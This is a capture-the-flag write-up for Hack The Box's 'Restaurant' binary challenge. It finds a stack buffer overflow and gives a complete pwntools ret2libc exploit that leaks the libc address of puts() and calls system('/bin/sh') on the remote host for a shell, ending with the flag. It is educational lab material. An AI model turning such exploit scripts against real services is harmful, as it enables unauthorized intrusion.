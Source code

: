 # Restaurant
> Write-up author: vreshco
## DESCRIPTION:
Welcome to our Restaurant. Here, you can eat and drink as much as you want! Just don't overdo it..
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115116-506eedf0-2fd5-4456-821b-2e840a5b4910.png)


2. Let's check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115265-0417d28f-2401-4961-a53b-0b84149e075c.png)


3. Now we know, the **restaurant** is a 64 bit binary file and it's not stripped, let's check the binary's protections.

> VULN - NO CANARY FOUND, NO PIE.

![image](https://user-images.githubusercontent.com/70703371/218116059-7fc94767-9177-42f5-b2cd-66e4deba8b90.png)


4. Now let's decompile the binary using ghidra.
5. At the `fill()` function, looks like there's a bufferoverflow, not only that we can leak the address of `puts()`.

![image](https://user-images.githubusercontent.com/70703371/218119145-7fe380f3-fbfb-44a0-9c7f-876f5c90b093.png)


6. Let's get the offset of RIP first by get a segmentation fault with running the binary in gdb.
7. Enter 1024 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218121772-d33483b6-d7ee-4d9e-90b6-9216d265edc1.png)


8. Since there's no value leaked at the RIP, we can use the RSP offset.

> RESULT - 40

![image](https://user-images.githubusercontent.com/70703371/218122089-5186b81e-be34-4433-8d53-9745341c834d.png)


9. Well, notice that there's no interesting function to jump or flag function, then we given a libc library, hence the approach here is `ROP`.
10. The steps here, first we need to craft a `ROP exploit` so we can leak any library function's address.
11. Find the correct libc library used (in this case we don't need to, because we the library is given).
12. Calculate & set the ASLR base address of libc library used in the server.
13. ROP payload for system call bash.
14. So first, we need to grep our `puts()` address from the plt and the **pop rdi** gadget, we can simply find the `puts()` address using gdb and the **pop rdi** offset using `ropper`.

> USING GDB - 0x400650

![image](https://user-images.githubusercontent.com/70703371/218255402-0b113e76-3672-4cca-98ab-6f03d6cca88c.png)


> USING ROPPER (To get pop rdi) - 0x4010a3

![image](https://user-images.githubusercontent.com/70703371/218255428-7e10147a-25fe-49d6-b6cc-1163373e6db9.png)


15. Anyway we can simplify that using **pwntools**, by executing this one line of script:

```py
rop.call(elf.plt['puts'], [next(elf.search(b''))])
```

> IMPLEMENT IT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './restaurant'
libc_library = './libc.so.6'
elf = context.binary = ELF(exe, checksec=False)
libc = context.binary = ELF(libc_library, checksec=False)
context.log_level = 'debug'

sh = start()

offsetRsp = b'A' * 40
rop = ROP(elf) 

rop.call(elf.plt['puts'], [next(elf.search(b''))]) 
```

> OUTPUT - Got all of it correctly

![image](https://user-images.githubusercontent.com/70703371/218255496-cc815fca-1a32-463d-b481-de00220cb73a.png)




> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './restaurant'
libc_library = './libc.so.6'
elf = context.binary = ELF(exe, checksec=False)
libc = context.binary = ELF(libc_library, checksec=False)
context.log_level = 'debug'

sh = start()

offsetRsp = b'A' * 40

### 1ST PAYLOAD

rop = ROP(elf) 
rop.call(elf.plt['puts'], [next(elf.search(b''))])

rop.call(elf.plt['puts'], [elf.got['puts']])

# for stack alignment (must align to 16 bytes)
rop.call((rop.find_gadget(['ret']))[0]) 
#print(rop.dump()) # to see the alignment

# goes back to fill(), so we can setup our next ROP
rop.call(elf.sym['fill']) 

# combine into usable payload
ropGetlibcaslr_addr = offsetRsp + rop.chain()
log.info(rop.dump())

sh.sendlineafter(b'>', b'1')
# exploit the vuln to print out the ASLR addr of puts() for libc in the server
sh.sendlineafter(b'>', ropGetlibcaslr_addr) 

# ignore empty space printed to us
sh.recvuntil(b'\n')
# ignore the 1st line statement printed to use as is 
# by the program to tell us "Enjoy your <input value>" before reaching RET
sh.recvuntil(b'\n') 

# get the leaked address of ASLR puts()
leakedputsLibc = u64(sh.recvuntil(b'\n').strip().ljust(8, b'\x00'))
info('Server libc, puts() addr: %#x', leakedputsLibc)

serverLibcbase_addr = leakedputsLibc - libc.symbols['puts']
info('Server libc base addr: %#x', serverLibcbase_addr)

libc.address = serverLibcbase_addr

### 2ND PAYLOAD - craft sys call to /bin/sh

ropLibc = ROP(libc)
ropLibc.call((ropLibc.find_gadget(['ret']))[0]) # align stack (16 bytes)
ropLibc.call(libc.sym['system'], [next(libc.search(b'/bin/sh\x00'))])

# combine into usable payload
ropGetbash = offsetRsp + ropLibc.chain()
log.info(ropLibc.dump())

### GET SHELL
sh.sendlineafter(b'>', ropGetbash)
sh.interactive()
```

14. Run the script remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218248357-633b42a1-5501-413e-ac46-7cedf555012d.png)


15. Got the flag!

## FLAG

```
HTB{r3turn_2_th3_r3st4ur4nt!}
```


